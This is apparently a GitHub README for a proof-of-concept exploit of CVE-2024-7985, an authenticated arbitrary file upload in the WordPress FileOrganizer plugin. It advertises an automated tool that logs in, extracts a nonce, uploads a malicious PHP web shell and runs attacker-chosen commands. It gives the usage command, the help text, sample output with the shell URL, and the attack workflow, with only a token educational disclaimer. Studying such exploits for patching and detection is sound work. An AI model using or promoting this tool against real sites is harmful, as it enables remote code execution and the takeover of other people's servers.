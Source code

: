 # CVE-2024-7985-PoC
FileOrganizer &lt;= 1.0.9 - Authenticated (Subscriber+) Arbitrary File Upload

# FileOrganizer Exploit - CVE-2024-7985

## 📌 Overview
**CVE-2024-7985** - WordPress Plugin **FileOrganizer <= 1.0.9** is vulnerable to **authenticated arbitrary file uploads**, allowing attackers with **Subscriber+** privileges to upload and execute malicious files remotely. This vulnerability arises from **missing file type validation** in the `fileorganizer_ajax_handler` function, making **Remote Code Execution (RCE) possible**.

🚨 **This exploit allows attackers to execute arbitrary commands on the server!** 🚨

## ⚡ Features
- ✅ **Automates the attack** - Login, retrieve nonce, exploit.
- ✅ **Bypasses security checks** by utilizing authenticated user privileges.
- ✅ **Automatic version detection** - Ensures the target is vulnerable.
- ✅ **Custom command execution** - User can specify any command.
- ✅ **Handles SSL verification issues** seamlessly.

## 🛠️ Requirements
- **Python 3**
- `requests`
- `beautifulsoup4`

Install dependencies:
```bash
pip install requests beautifulsoup4
```

## 🚀 Usage
```bash
python CVE-2024-7985.py --url "http://target-site.com/wordpress" --username "admin" --password "admin" --cmd "whoami"
```

## 📖 Usage -Help
```
usage: CVE-2024-7985.py [-h] --url URL --username USERNAME --password PASSWORD [--cmd CMD]

FileOrganizer <= 1.0.9 - Authenticated (Subscriber+) Arbitrary File Upload by | Nxploit Khaled_alenazi

options:
  -h, --help           show this help message and exit
  --url URL            Target WordPress site URL
  --username USERNAME  WordPress Username
  --password PASSWORD  WordPress Password
  --cmd CMD            Command to execute in uploaded file
```



### Example Output:
```
[+] Vulnerable version detected: 1.0.9
[+] Logged in successfully!
[+] Extracted nonce: 7b4a95872b
[+] File uploaded successfully!
[+] Access file at: http://target-site.com/wordpress/wp-content/uploads/fileorganizer/cmd.php?cmd=whoami
```

## 🔍 Exploit Workflow
1️⃣ **Version Check** - Determines if the site is vulnerable.  
2️⃣ **Authentication** - Logs into WordPress.  
3️⃣ **Nonce Extraction** - Retrieves security token.  
4️⃣ **File Upload** - Uploads a malicious PHP script.  
5️⃣ **Command Execution** - Executes user-specified commands.  

---

### 📌 Disclaimer 
This script is for educational purposes only; the author holds no responsibility for any misuse or consequences. 🚨
